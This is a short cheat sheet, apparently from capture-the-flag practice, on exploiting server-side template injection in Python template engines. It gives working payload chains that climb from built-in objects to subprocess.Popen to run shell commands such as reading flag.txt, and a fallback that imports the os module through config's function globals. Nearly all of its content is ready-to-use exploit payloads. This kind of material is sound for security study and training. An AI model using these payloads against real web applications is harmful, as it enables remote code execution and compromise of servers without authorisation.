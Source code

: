 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

```
[]
''
()
dict
config
request

# example payload
{{ [].__class__.__base__ }} # <class 'object'>
```

2. Finding subclasses to abuse
```
{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>,..., <class 'subprocess.Popen'>,...]
```

The subprocess.Popen class allows us to run os commands and is of interest.
```
python3 extract_subclass_num.py subclasses subprocess
413:  <class 'subprocess.CompletedProcess'>
414:  <class 'subprocess.Popen'>
```
3. RCE
```
{{ [].__class__.__base__.__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate() # returns (stdout, stderr) }}
```
if we cannot run code through subclasses, we can try and access functions' builtins in order to import os:
```
{{ config.__class__.__dict__ }}, {{ request.__class__.__dict__ }} # will return a dictionary of classes, methods and functions
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os") }} # returns <module 'os' from '/usr/lib/python3.10/os.py'>

```
